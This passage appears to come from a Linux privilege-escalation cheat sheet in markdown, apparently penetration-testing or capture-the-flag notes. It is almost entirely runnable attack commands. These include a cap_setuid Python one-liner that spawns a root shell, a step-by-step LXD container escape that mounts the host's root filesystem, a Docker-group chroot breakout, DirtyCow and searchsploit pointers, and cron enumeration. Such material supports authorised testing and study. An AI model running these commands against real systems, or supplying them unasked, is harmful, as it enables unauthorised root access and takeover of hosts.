 #### Capabilities
```bash
# List capabilities
getcap -r / 2>/dev/null

# Example exploit (cap_setuid)
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

#### Kernel Exploits
```bash
# Check kernel version
uname -a

# Search for exploits
searchsploit linux kernel 4.4.0

# DirtyCow (CVE-2016-5195)
# Works on kernel < 4.8.3
```

#### Cron Jobs
```bash
# Check cron jobs
cat /etc/crontab
ls -la /etc/cron.*
crontab -l

# Check for writable cron scripts
find /etc/cron* -type f -perm -o+w 2>/dev/null
```

#### LXD/LXC Group
```bash
# Check groups
id

# If in lxd/lxc group:
# On attacker machine:
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
./build-alpine

# Transfer to target, then:
lxc image import alpine*.tar.gz --alias myimage
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
cd /mnt/root/root
```

#### Docker Group
```bash
# If in docker group
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
